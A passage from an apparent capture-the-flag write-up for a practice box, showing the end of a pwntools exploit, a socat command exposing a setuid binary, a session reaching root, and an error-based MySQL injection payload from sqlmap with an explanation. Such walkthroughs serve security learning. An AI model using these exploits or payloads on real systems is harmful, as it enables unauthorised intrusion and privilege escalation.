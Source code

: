      38     log.warn('Is socat running on target?')
     39     log.warn('TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?')
     40     exit()
     41 p.sendline(payload)
     42 p.interactive()
    
    

If I run without starting `socat`, it warns me:

    
    
    root@kali# python ./pwn_iptctl.py
    [*] Attempting to connect
    [-] Opening connection to 10.10.10.113 on port 9001: Failed
    [ERROR] Could not connect to 10.10.10.113 on port 9001
    [!] Could not connect to target
    [!] Is socat running on target?
    [!] TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?
    

Start `socat`:

    
    
    penelope@redcross:/dev/shm$ socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"
    

And exploit to get shell with effective userid of root:

    
    
    root@kali# python pwn_iptctl.py
    [*] Attempting to connect
    [+] Opening connection to 10.10.10.113 on port 9001: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=1000(penelope) egid=0(root) groups=0(root)
    

## Beyond Root

### SQLi Details

I noticed when I added a `'` to the `o` parameter in the url that I got a
debug statement back from the page:

![](https://0xdfimages.gitlab.io/img/1554221201416.png)

When I ran `sqlmap`, it offered this as one of the proof of concepts to get
data:

    
    
        Type: error-based                                                        
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app
    

This statement is going to create an error condition because of how `GROUP BY`
requires unique values. [This
video](https://www.youtube.com/watch?v=2UUWowboSfA) walks through that in more
detail, and here’s [another post describing this kind of
error](https://hydrasky.com/network-security/error-based-sql-injection-
attack/).
